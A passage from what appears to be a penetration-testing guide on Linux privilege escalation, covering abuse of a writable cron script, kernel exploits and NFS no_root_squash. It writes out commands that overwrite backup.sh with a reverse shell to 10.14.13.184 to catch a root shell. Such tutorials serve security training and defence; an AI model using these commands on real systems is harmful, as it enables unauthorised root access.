 ```
# clear the contents of the current backup.sh file
echo  > backup.sh

# echo in reverse shell code
echo "#!/bin/bash" > backup.sh
echo "sh -i >& /dev/tcp/10.14.13.184/80 0>&1" >> backup.sh
```

Wait for the job to run and a reverse shell should be caught as root.

![](<../../.gitbook/assets/image (14) (2) (1).png>)

## Kernel Exploits

The kernel on an operating system works at a low and facilitates communication and between the hardware and applications. As the kernel requires privileged permissions to function correctly a kernel exploit can often lead to an escalation of privileges.

Generally the process of kernel exploitation from an adversary perspective involves performing enumeration on the target system and depending on the version of the kernel running on the target system, perform an exploit if one is available.

Tools such as [<mark style="color:red;">Linux Exploit Suggester</mark>](https://github.com/mzet-/linux-exploit-suggester) can be used to help identify if the current OS and kernel are vulnerable to any known exploits.

## NFS

By default, NFS shares change the root user to the `nfsnobody` user, an unprivileged user account. In this way, all root-created files are owned by `nfsnobody`, which prevents uploading of programs with the setuid bit set. If `no_root_squash` is used, remote root users are able to change any file on the shared file system and leave trojaned applications for other users to inadvertently execute. [<mark style="color:red;">\[Source\]</mark>](https://access.redhat.com/documentation/en-us/red\_hat\_enterprise\_linux/4/html/security\_guide/s2-server-nfs-noroot)

{% hint style="info" %}
This attack method requires the adversary to already have shell access on the target system.
{% endhint %}

Given the above information we can check from the target system what NFS shares have `no_root_squash` enabled by reading `/etc/exports`.

![](<../../.gitbook/assets/image (1411).png>)
